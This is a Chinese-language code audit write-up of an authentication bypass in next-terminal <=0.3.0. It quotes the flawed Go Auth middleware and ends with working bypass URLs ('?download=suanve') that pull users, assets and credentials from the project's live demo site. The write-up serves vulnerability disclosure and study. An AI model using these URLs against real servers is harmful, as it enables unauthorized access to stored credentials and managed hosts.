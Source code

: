 ```json
{
  "date": "2021-03-10 11:49:57",
  "tags": ["golang","权限绕过","next-terminal","代码审计"],
  "description":"go代码审计-next-terminal权限绕过"
}
```

# next-terminal 代码审计

项目地址：

https://github.com/dushixiang/next-terminal

危害版本：
`<=0.3.0`


### 0x0 环境搭建

运行项目
`docker run -d   -p 8088:8088   --name next-terminal   --restart always dushixiang/next-terminal:latest`



### 0x1 权限绕过

代码分析：

pkg/api/routes.go:37行加载`Auth`认证

![image-20210305125205180](https://files.funcloud.net/uploads/ed759ef5a1d6c7cbb59c87f21ed404e0)



跟进`Auth`函数

pkg/api/middleware.go:28 

![](https://files.funcloud.net/uploads/1bb11e4eb80ac4a0060c5ec859d1dab7)

```go
func Auth(next echo.HandlerFunc) echo.HandlerFunc {

	urls := []string{"download", "recording", "login", "static", "favicon", "logo", "asciinema"}
	// 这里是为了给不需要认证的路由提供便利
	return func(c echo.Context) error {
		// 路由拦截 - 登录身份、资源权限判断等
		for i := range urls {
			if c.Request().RequestURI == "/" || strings.HasPrefix(c.Request().RequestURI, "/#") {
				return next(c)
			}
			if strings.Contains(c.Request().RequestURI, urls[i]) { //  路由中携带urls中的关键字
        
				return next(c) //?download=suanve 实现权限绕过
        
			}
		}

		token := GetToken(c)
		cacheKey := strings.Join([]string{Token, token}, ":")
		authorization, found := global.Cache.Get(cacheKey)
		if !found {
			return Fail(c, 401, "您的登录信息已失效，请重新登录后再试。")
		}
```



#### 0x3 官网demo实测：

##### 获取用户列表

https://next-terminal.typesafe.cn/users/paging?download=suanve

![image-20210305124955423](https://files.funcloud.net/uploads/487f129108c7b95560ec74995ea417e7)



##### 获取资产

https://next-terminal.typesafe.cn/assets/paging?pageIndex=1&pageSize=10&protocol=&download=suanve

![image-20210305130107255](https://files.funcloud.net/uploads/159207df1e6df8cd5b3c6d0fc57ecf55)



##### 获取凭据

https://next-terminal.typesafe.cn/credentials/paging?pageIndex=1&pageSize=10&download=suanve

![image-20210305130436581](https://files.funcloud.net/uploads/b4eddda35142e99069b3494eda4929f1)

